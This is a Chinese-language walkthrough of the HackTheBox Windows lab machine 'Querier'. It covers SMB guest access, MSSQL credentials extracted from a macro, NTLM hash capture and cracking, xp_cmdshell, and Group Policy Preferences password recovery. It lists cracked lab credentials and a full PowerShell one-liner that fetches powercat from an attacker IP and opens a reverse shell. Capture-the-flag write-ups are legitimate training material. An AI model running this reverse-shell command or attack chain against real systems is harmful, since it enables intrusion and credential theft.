

简介：
querier是第二台windows靶机, 与第一台的风格完全不同, 这台靶机学到了很多windows下提权的思路和信息收集的工具. 该靶机的思路是:
public share -> xlsm file -> mssql user -> mssql sa -> group policy preferences
MSRPC、NetBIOS、SMB、MSSQL、WinRM
拿到靶机先扫描一波tcp端口./mnmap.sh 10.10.10.125 1000, 扫完之后很懵逼, 没怎么打过windows靶机一时不知道怎么收集信息怎么深入到下一步了.
139端口为NetBIOS服务、445端口属于SMB服务、1433端口mssql服务、5985和47001端口为WinRM服务、135和49664-49671端口为MSRPC服务, 从1433端口的详细信息中找到主机名QUERIER、域HTB、DNS域HTB.LOCAL, 操作系统最有可能是xp、win7、Server2012。
xlsm find account
windows系统中默认存在一个guest账号, 使用smb工具连接smb服务的时候指定用户名为guest即可找到一个reports的共享目录, 目录中有一个xlsm文件.
xlsm文件为带宏的excel文件, 将xlsm文件复制为zip或rar文件然后解压, 可以在其中的xl目录下找到一个.bin的宏文件.
通过olevba对bin格式的vpa宏文件进行反编译, 查看宏代码及其中硬编码的mssql账号和密码:reporting / PcwTWTHRwryjc$c6
mssql stellar ntlm hash
用mssql_client登陆sqlserver数据库, 发现这是一个低权限账号, 从数据库中搜索之后没有任何发现, 尝试之后通过xp_dirtree存储过程获取到运行mssql服务的用户的ntlm hash值, 用hashcat和rockyou.txt对ntlm hash进行爆破, 找到高权限账号密码mssql-svc / corporate568
mssql find user.txt and root.txt
用mssql-svc账号登陆mssql后, 开启xp_cmdshell, 用xp_cmdshell读取mssql-svc账号桌面下的user.txt
由于对mssql的不熟悉, 执行xp_cmdshell的时候发现无法直接用type <full path>读取文件, 因此通过连接符来读取
然后经过windows提权的各种ps脚本一通乱跑, 从组策略首选项的历史文件groups.xml中找到administrator的账号和加密后的密码。拿到账号密码之后尝试用ps运行子进程来读取root.txt但都以失败而告终, 不知道卡在来什么地方。
通过smbmap查看账号对共享目录的操作权限, 用smbclient登陆administrator账号, 下载root.txt并读取

root.txt
由于论坛上由大佬提出无法获取reverse shell, 于是尝试来一下, 用xp_cmdshell powershell -noprofile IEX(New-Object System.Net.Webclient).DownloadString(\"http://10.10.15.77/powercat.ps1\");powercat -c 10.10.15.77 -p 2145 -e powershell即可获取powershell反弹shell
工具 && Keys
完成本靶机使用的工具:
smbmap
smbclient
olevba
mssqlclient
msbserver
hashcat
powerup
powercat
在用工具完成靶机的过程中, 遇到了很多问题:
1.smbmap和smbclient已知无法连接, 经排查是网络问题, 重启vpn、多运行几次工具即可
2.拿到账号后无法用mssqlclient登陆数据库, 经过尝试发现遇到的问题是reporting密码中含有的$为shell关键字, 用于获取变量, 可通过转义字符\进行转义或在弹出输入密码的提示框后输入; mssql的认证方式有用户认证和windows账号认证两种, 由于reporting账号是windows账号, 因此需要增加参数-windows-auth进行登陆或指定主机名querier/reporting进行登陆, 后者在mssql客户端工具上经过尝试可行, 未在mssqlclient上进行尝试
3.hashcat破解ntlm hash之后的密码写入原ntlm hash文件的末尾
关于更多windows下渗透的工具, 请参考Pentesting test in windows